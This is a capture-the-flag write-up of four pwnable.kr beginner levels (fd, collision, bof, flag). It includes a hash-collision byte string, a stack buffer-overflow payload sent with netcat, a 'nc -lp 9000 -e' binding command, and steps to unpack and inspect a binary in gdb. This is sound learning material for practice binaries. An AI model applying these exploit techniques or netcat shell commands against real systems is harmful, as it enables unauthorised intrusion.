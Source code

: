 Toddler's Bottle
================

Codes: https://gist.github.com/siddharthasahu/f46a965d7ce34a4b24cc

fd
--

A simple one.

* atoi(const char *str): Converts the char stream of digits to int 
* read(int fdes, void *buf, size_t nbyte): Reads `nbytes` bytes into `buf` variable from `fdes` file descriptor. [http://codewiki.wikidot.com/c:system-calls:read]
* Hex to decimal conversions in bash: http://stackoverflow.com/questions/13280131/hexadecimal-to-decimal-in-shell-script

Rest is simply setting the file descriptor to stdin and passing the matching string:  
`echo "LETMEWIN" | ./fd 4660`  
or even better: `echo "LETMEWIN" | ./fd $(printf "%d" 0x1234)`

Pwned!

collision
---------

This one led to a revision of signed vs unsigned integers, data ranges in C and interplay between binary, ASCII and hex.

* New bash commands: `od`, `xxd`, data conversion in `bc`
* Need to take care of byte ordering
* http://stackoverflow.com/questions/9487037/passing-binary-data-as-arguments-in-bash

The trick is to pass in 20 bytes which is picked in the form of 5 ints and added to get the result.

One of the possible answers: `$'\xE8\x05\xD9\x1D\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01'`

bof
---

Finally get to learn buffer overflows!

* Needs gdb debugging skills
* Function call conventions in x86: http://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html

Objective is to replace the value of `key`. So basically one needs to calculate the position of the `key` variable in the stack and send an appropriate input so that it replaces `key` with desired data (0xcafebabe in this case).

GDB commands
$ gdb ./bof
(gdb) break func
(gdb) r
(gdb) disassemble

* From `lea    -0x2c(%ebp),%eax` in func+29, we come to know that the position of the `overflowme` variable in the stack, where our input starts getting stored is -0x2c = 44 bytes below the frame pointer (ebp).
* From function calling conventions, stack order is: function arguments -> eip (4 bytes) -> ebp (4 bytes) -> local variables. So position of `key` is 44 + 4 + 4 = 52 bytes from `overflowme` in the stack.
* From above and keeping in mind little endian systems, input can be: "a"*52+$'\xbe'$'\xba'$'\xfe'$'\xca'
* Trying: `echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"$'\xbe'$'\xba'$'\xfe'$'\xca' | nc pwnable.kr 9000`. Does not work.
* I did not solve this, but apparently the above format is closing the shell before commands can be sent.
* Repeat a character in bash: http://stackoverflow.com/questions/5349718/how-can-i-repeat-a-character-in-bash
* Final solution: `(echo $(printf "=%.0s" {1..52};printf "\xbe\xba\xfe\xca");cat) | nc pwnable.kr 9000`

TODO: Investigate why subshell with cat is needed here.

NOTES:  
* If you try to insert a random big input, it gives a "stack smashing detected" error. Interesting to know, but not relevant to this problem, because the hack is in the function itself.
* For running the binary locally: `while true;do nc -lp 9000 -e ./bof;done` (kill shell to exit)

flag
---

Given just a binary, how to analyse!

% `./flag`  
I will malloc() and strcpy the flag there. take it.

% `objdump -D flag`  
flag:     file format elf64-x86-64

So, flag is in the binary itself, but the objdump is not succeeding. Expected that it wouldn't be that easy.  

Lets see if we can extract some strings:  
$ `strings < flag`  
...
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $
...

Jackpot! So the binary has been packed. Lets install upx and unpack it.  
$ `upx -d ./flag`

Now we can run normal gdb commands:  
$ `gdb ./flag`
(gdb) break main
(gdb) r
(gdb) disassemble

* So the function copies the global (because of %rip usage) `flag` variable data to the malloc alllocated memory. We just need to find the address of the flag variable.
* We can notice the address gets copied to the %rsi register. So setting a breakpoint after the values are copied, we can extract the address.

(gdb) break *0x401195   => address after values are copied, so after the mov %rdx,%rsi and mov %rax,%rdi commands
(gdb) s
(gdb) p/x $rsi        => eg 0x496628
(gdb) x/100c $rsi     => Printing flag in character form, we get the string.

Fun!
